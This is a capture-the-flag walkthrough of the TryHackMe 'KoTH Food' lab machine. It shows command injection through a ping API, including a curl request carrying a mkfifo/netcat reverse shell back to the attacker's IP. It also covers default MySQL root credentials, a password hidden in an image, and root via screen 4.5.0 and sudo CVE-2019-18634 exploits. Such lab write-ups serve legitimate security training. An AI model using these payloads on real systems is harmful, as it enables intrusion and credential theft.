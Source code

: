 ```yaml
---
layout: post
title: "KoTH Food CTF"
date: 2022-10-20
categories: [Tryhackme, Easy-THM]
tags: [dirsearch, Command-Injection, CVE-2019-18634]
image: ../../assets/img/posts/kothfoodctf.png 

---
```


## Description

Practice Food KoTH alone, to get familiar with KoTH!

|**Room**|[KoTH Food CTF](https://tryhackme.com/room/kothfoodctf)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[NinjaJc01](https://tryhackme.com/p/NinjaJc01)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.20.53 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/186400331-158cb2b2-c531-4ce5-82c7-51ccfebf1190.png)

5 ports are open with port 22 running ssh service, port 3306 is running mysql service, port 9999 is running something and 15065,16109 is running unknown service. Let's start enumerating port 15065.

Visit http://10.10.20.53:15065/,

![image](https://user-images.githubusercontent.com/67465230/186400560-1a74a73a-441b-4f5c-9324-7e2482bdcb34.png)

We got message from developers that site is down for maintenance.

We now have to find hidden directories,

```bash
dirsearch -u http://10.10.20.53:15065/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186400645-71276b03-9821-4482-97ad-8ece3dc91cb5.png)

we got a hidden directory /monitor.

Let's visit http://10.10.20.53:15065/monitor/,

![image](https://user-images.githubusercontent.com/67465230/187595474-e576f16e-5eaf-4f7c-9efa-c7b9d2be65a5.png)

So on /monitor, we see a slightly more polished GUI. From a few other challenges, "Ping host" can often be a route for command injection. Let's try chaining commands in the text box.

![image](https://user-images.githubusercontent.com/67465230/186400845-aa68f30e-df0d-4b2f-9d38-500f2b59517d.png)

It not let us in that easily. It's trying to validate the IP address we enter somewhere. Let's check out what it's doing behind the scenes by reading the JS.

![image](https://user-images.githubusercontent.com/67465230/186400883-a111374d-82f2-4d0a-9436-ec24b2563678.png)

The JS is obfuscated. I don't deobfuscating it. So let's see what it's actually doing if we put in a valid IP address. Opening the browser dev tools, we can track the HTTP requests that the page makes.

![image](https://user-images.githubusercontent.com/67465230/186400941-fa2ba13c-9cf5-4eec-93c9-6523d5568566.png)

Interesting, we can see a POST request to /api/cmd with the body: "ping -c 4 127.0.0.1". That implies that the command is being formed clientside, let's try running our own commands with cURL!

Now, using curl tool, we are going to return the directory enumeration through our request,

```bash
curl 10.10.20.53:15065/api/cmd -X POST -d "ls -lah"
```

![image](https://user-images.githubusercontent.com/67465230/186400974-98e98c3d-d771-4a2e-86a0-0610d18fecf3.png)

we can see directories and other files. We have command injection. Let's spawn a quick revshell to get slightly better access to the box. Start a netcat listener using `nc -nvlp 4444`.

Now, issue the request to gain a reverse shell,

```bash
curl 10.10.20.53:15065/api/cmd -X POST -d "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.0.152 4444 >/tmp/f"
```

![image](https://user-images.githubusercontent.com/67465230/186401004-d09c7a11-805f-40bd-9661-3dd2de53aa53.png)

We got a shell but we shouldn't stop at one entry point.

Let's explore MySQL next. I wonder if the default creds (root:root for old versions) will work for it...

```bash
mysql -h 10.10.20.53 -u root -p
```

![image](https://user-images.githubusercontent.com/67465230/186401032-319ebb26-09ec-4701-b2eb-0a8f36f20be1.png)

With these command, we can enumerate DB and get the username and password,

```sql
show databases;
use users;
show tables;
select * from User;
```

Now, let's login as ramen user via ssh,

```bash
ssh ramen@10.10.20.53
```

![image](https://user-images.githubusercontent.com/67465230/186401075-f752abaa-03c1-43fc-b0e7-c4b5aaa97fd2.png)

We're in!. Now enumerating permissions randomly, we notice that we get asterisks when entering our password for sudo. This isn't standard behaviour on Ubuntu. We'll come back to this.

We're running out of ports to look at. Let's try the one that's next up numerically, 16109. Nmap had no idea for this one, let's try curl and see what that does,

```bash
curl 10.10.20.53:16109
```

![image](https://user-images.githubusercontent.com/67465230/186401119-2e37c1b7-8ce6-4e8f-a9fc-90ddcb9b15d1.png)

```bash
curl 10.10.20.53:16109 --output file16109
```

![image](https://user-images.githubusercontent.com/67465230/186401173-3216567e-beeb-4d41-baa5-72fb5c449667.png)

```bash
file file16109
```

![image](https://user-images.githubusercontent.com/67465230/186401227-fbd6b987-0981-482f-bc11-9e8c8aa95c0c.png)

Seeing as we got a warning that it was binary data, we can assume it's serving something interesting. The "file" command tells us it's JPG data.

Let's look at the image and see if that helps,

![image](https://user-images.githubusercontent.com/67465230/186401285-7370313f-e698-48cb-9bce-3e48da0db6f3.png)

Such a nice looking food.

Let's run binwalk on this image,

```bash
binwalk -e 16109.jpg
```

![image](https://user-images.githubusercontent.com/67465230/186401334-58f4e7ea-e006-4311-a318-e1657bb49600.png)

binwalk extracted the data from image.

Reading the file which got extracted using binwalk,

![image](https://user-images.githubusercontent.com/67465230/186401391-c1313bc2-4bba-4d7d-a1d5-41eedd21fa45.png)

we got pasta user password.

Hopping into machine as pasta user via ssh,

```bash
ssh pasta@10.10.20.53
```

![image](https://user-images.githubusercontent.com/67465230/186401447-dba80ebb-2c68-439c-9a40-58911f438d20.png)

We got in.

Now, we will find those binaries which has SUID bit set on them,

```bash
find / -perm -04000 -type f 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186401509-efeb5430-1d74-4095-8c99-f04b1f2256d5.png)

We have some unusual SUID binaries there. "/usr/bin/screen-4.5.0" implies that it was installed manually rather than with apt. /usr/bin/vim.basic" is also probably interesting. 

Searching exploitdb, we find [41154](https://www.exploit-db.com/exploits/41154) so let's download and transfer this and run it,

![image](https://user-images.githubusercontent.com/67465230/186401573-9d84b503-bcea-48dd-b74f-395a0fd7675f.png)

One more privesc. We noticed earlier that we got asterisks when entering our password for Sudo. There was a recent CVE (2019-18634) that affects sudo when this option is configured. The option is called PWFEEDBACK, and an exploit PoC is available here [Github saleemrashid - Sudo CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634.git),

![image](https://user-images.githubusercontent.com/67465230/186401621-58dbcf41-7c50-4155-b280-5d25a2f489cd.png)

Now, start a server using `python3 -m http.server`and transfer this file, make it executable using `chmod +x exploit` and run it,

![image](https://user-images.githubusercontent.com/67465230/186402228-89ebfa36-d00e-49b9-90b0-5eaa2861705c.png)

We are root.